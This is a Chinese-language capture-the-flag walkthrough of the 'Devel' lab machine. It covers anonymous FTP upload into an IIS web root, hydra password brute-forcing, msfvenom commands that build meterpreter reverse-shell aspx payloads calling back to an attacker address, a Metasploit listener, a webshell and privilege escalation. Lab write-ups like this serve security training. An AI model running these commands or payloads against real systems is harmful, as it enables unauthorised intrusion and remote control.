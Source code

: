 ```yaml
---
title: Devel（ftp匿名登陆可读可写）
categories:
- training
tags:
- training
---
```

10.10.10.5

```
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5

```
## ftp
```
ftp 10.10.10.5
anonymous
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-11-19  01:21AM                 2826 shell.aspx
01-11-19  01:24AM                 2824 shell1.aspx
01-11-19  01:30AM                 2863 shell2.aspx
03-17-17  04:37PM               184946 welcome.png

get iisstart.htm
get shell.aspx
get shell1.aspx
get shell2.aspx
get welcome.png
cd aspnet_client
cd system_web
cd 2_0_50727
pwd
/aspnet_client/system_web/2_0_50727
```
下载并查看后，推测aspx脚本是服务器上要用的脚本，但看不出具体用途
## web

http://10.10.10.5/aspnet_client/system_web/ 403 forbidden
You do not have permission to view this directory or page using the credentials that you supplied.

http://10.10.10.5/shell.aspx
#### trying1
当进行信息搜集了以后，发现ftp共享的目录就是web目录。

如果可以上传一个aspx类型的shell，通过web就可以获取webshell。

`hydra -l server -P /usr/share/wordlists/rockyou.txt -I 10.10.10.5 ftp`
`hydra -l ftp -P /usr/share/wordlists/rockyou.txt -I 10.10.10.5 ftp`

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/11.PNG)

#### trying2: 生成一个aspx类型的shell。
```
msfvenom -l formats | grep asp
msfvenom -l payload | grep windows | grep meterpreter
msfvenom -p windows/x64/meterpreter_reverse_http LHOST="10.10.14.13" LPORT=7766 -o /root/Desktop/5/glory.aspx

ftp put上传
```
#### trying3: msf

设置监听
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 7766
run
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/1.PNG)

失败

## 获取一个webshell
重新上传asp类型的一句话，然后菜刀连接。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/2.PNG)

```
whoami
iis apppool\web

net user
Administrator            babis                    Guest                    
The command completed with one or more errors.
```
权限不够，很多东西都看不了

## 错误的总结
以下的命令生成的payload不能成功执行。注意x64，是64位的windows，血泪的教训，会报一个错。
`msfvenom -p windows/x64/meterpreter_reverse_http LHOST="10.10.14.13" LPORT=7766 -o /root/Desktop/5/glory.aspx`

正确的方式：
`msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.13" LPORT=7765 -f aspx  > /root/Desktop/5/4.aspx`

一开始在生成格式中纠结，是生成asp类型，还是apsx类型？
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/3.PNG)

#### asp和aspx的区别
asp是十几年前的产品。

aspx是asp的升级版，aspx整合了.net框架,不仅仅能做网页

#### 关于`set ExitOnSession false`
因为handler application可以继续作为作业（job）运行，即使在关闭或失败的meterpreter会话的情况下也是如此。它仅适用于作业（-j），因为这些是在后台运行的唯一作业。

## 提权
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/4.PNG)

windows提权，使用的方法，[search suggester](https://whale3070.github.io/training/2019/01/06/x/)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/5.png)

```
shell
cd c:\Users\Administrator\Desktop
type root.txt.txt
```
## 总结：
这一次渗透还挺顺利的，因为用到的都是以前就学过的知识。

几乎立即就认识到了攻击路径。

还行吧，继续加油。


